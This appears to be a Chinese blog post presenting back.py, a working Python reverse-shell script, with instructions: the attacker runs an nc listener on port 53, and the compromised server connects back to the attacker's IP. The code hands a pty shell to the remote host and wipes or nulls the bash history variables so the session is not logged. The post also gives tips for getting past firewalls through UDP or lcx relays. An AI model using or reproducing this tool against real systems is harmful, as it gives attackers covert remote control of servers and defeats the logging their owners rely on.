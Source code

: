 ```yaml
---
title: back.py反弹shell
date: 2017-09-11 17:50:57
tags: 渗透
---
```


back.py会自动去掉各种history记录，确保shell断掉的时候不会被记录到bash_history里面，而且反弹也稳定不会断，推荐使用
使用方法：back.py 你本地监听的IP 端口 [udp]

首先本地使用nc监听：nc -l -vv -p 53

然后被控服务器执行：back.py 114.113.112.111 53即可

如果不行，请确定服务器53端口能出去（测试方法就是ping百度，看看能否解析出地址）。或者先使用lcx监听，再本地用nc连接lcx。

udp是为了突破某些连53端口都出不去时的情景，也不全成功，udp传输的话会不稳定，不多说了上代码


``` python
# -*- coding:utf-8 -*-

#!/usr/bin/env python
"""
back connect py version,only linux have pty module
code by google security team
UDP by anthrax@insight-labs.org
"""
import sys,os,socket,pty
shell = "/bin/sh"
def usage(name):
    print 'python reverse connector'
    print 'usage: %s <ip_addr> <port> [udp]' % name

def main():
    if len(sys.argv) <3:
        usage(sys.argv[0])
        sys.exit()
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        if sys.argv[3]=='udp':
            s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
    except:pass
    try:
        s.connect((sys.argv[1],int(sys.argv[2])))
        print 'connect ok'
    except:
        print 'connect faild'
        sys.exit()
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    global shell
    os.unsetenv("HISTFILE")
    os.unsetenv("HISTFILESIZE")
    os.unsetenv("HISTSIZE")
    os.unsetenv("HISTORY")
    os.unsetenv("HISTSAVE")
    os.unsetenv("HISTZONE")
    os.unsetenv("HISTLOG")
    os.unsetenv("HISTCMD")
    os.putenv("HISTFILE",'/dev/null')
    os.putenv("HISTSIZE",'0')
    os.putenv("HISTFILESIZE",'0')
    pty.spawn(shell)
    s.close()

if __name__ == '__main__':
    main()
```
